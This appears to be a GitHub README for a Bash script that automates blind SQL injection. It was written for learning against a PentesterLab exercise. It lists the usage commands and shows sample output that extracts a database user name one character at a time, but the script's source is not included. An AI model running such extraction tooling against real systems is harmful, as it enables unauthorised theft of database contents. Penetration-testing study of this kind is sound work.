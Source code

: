 # Blind_SQL_injection_script
This is a Bash script which automates blind SQL injections by testing characters: `{0..9} {A..z} . .. ; : - _ @`
It was written and tested based on this [PentesterLab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course) which actually supports in-band SQL injection which is highly preferable to blind SQLIs. However, this was written for the sake of learning how to automate blind SQL injections, since all in-band SQLIs can be treated as blind SQL injections but not vice versa.

Previously I used a similar script but for an eLS PTP lab. Since that lab is not open to the public and I haven't found a free one publicly available, this will do.

## Important:
This script requires heavy editing. You have to use Burpsuite to test the SQLI parameters, then copy as `curl`, replace the curl syntax in this script, together with `$URL`, `$truestring`.

## Usage
`./SQLblind.sh 20 '@@version'`

`./SQLblind.sh 20 'system_user()'`

## Sample output
```
root@Kali:~/Web# ./SQLblind.sh 30 'system_user()'
Edit the $URL,$truestring and curl command before you use it. Basically change almost everything :) 
Usage: ./SQLblind.sh max-length 'query'
Eg. ./SQLblind.sh 20 'database()' 
Eg. ./SQLblind.sh 30 '@@version'
extracting the results from query system_user()...
Character number 1 found: P
Character number 2 found: E
Character number 3 found: N
Character number 4 found: T
Character number 5 found: E
Character number 6 found: S
Character number 7 found: T
Character number 8 found: E
Character number 9 found: R
Character number 10 found: L
Character number 11 found: A
Character number 12 found: B
Character number 13 found: @
Character number 14 found: L
Character number 15 found: O
Character number 16 found: C
Character number 17 found: A
Character number 18 found: L
Character number 19 found: H
Character number 20 found: O
Character number 21 found: S
Character number 22 found: T
Results: PENTESTERLAB@LOCALHOST

```
